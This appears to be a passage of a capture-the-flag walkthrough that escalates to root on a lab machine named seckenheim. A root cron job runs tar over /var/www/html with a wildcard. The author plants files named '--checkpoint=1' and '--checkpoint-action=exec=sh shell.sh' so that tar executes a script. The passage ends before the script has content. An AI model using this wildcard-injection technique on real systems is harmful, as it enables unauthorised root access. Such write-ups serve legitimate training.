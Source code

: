 {% highlight bash %}
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 * 	* * * 	root	/backup/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
{% endhighlight %}

<p>Checking <code>/backup/backup.sh</code> file, and It has a root privillege!!! this is good. Checking the content!</p>
<pre><code>#!/bin/bash
cd /var/www/html
tar cf /backup/backup.tgz *</code></pre>

<p>During the examination of server, I have found many txt files at <code>/home/langman/SDINET</code> and one of them gets my attention which is <code>DefenseCode_Unix_WildCards_Gone_Wild.txt</code>. It has a section about how to get a command execution using tar command!!!! Bingooo :))</p>
<p>Since <code>backup.sh</code> has root privilleges, we can take advantage of getting remote execution.</p>
<p>We require to create 3 files on the same directory that tar creates a backup from, which is in this case is <code>/var/www/html/</code>as the following:</p>
<pre><code>1. "--checkpoint=1"
2. "--checkpoint-action=exec=sh shell.sh"
3. shell.sh - that has commands!</code></pre>

{% highlight bash %}
www-data@seckenheim:/var/www/html$ ls -la
total 228
drwxr-xr-x 2 www-data www-data  4096 Jun  3 08:12 .
drwxr-xr-x 3 root     root      4096 May 21 15:50 ..
-rw-r--r-- 1 root     root     73450 Aug  6  2015 bomb.jpg
-rw-r--r-- 1 root     root      3901 May 21 18:56 bomb.php
-rw-r--r-- 1 www-data www-data 99552 Mar 19  2014 cmd.php
-rw-r--r-- 1 root     root       124 May 21 17:50 content.php
-rw-r--r-- 1 root     root       145 May 21 17:17 index.php
-rw-r--r-- 1 www-data www-data    20 May 21 15:54 info.php
-rw-r--r-- 1 root     root       109 May 21 18:53 main.php
-rw-r--r-- 1 root     root     18260 Jan 22  2012 mj.jpg
-rw-r--r-- 1 root     root       532 May 21 23:33 nav.php
-rw-r--r-- 1 root     root       253 May 22 21:07 props.php
www-data@seckenheim:/var/www/html$ echo "" > shell.sh; chmod +x shell.sh
www-data@seckenheim:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
www-data@seckenheim:/var/www/html$ echo "" > --checkpoint=1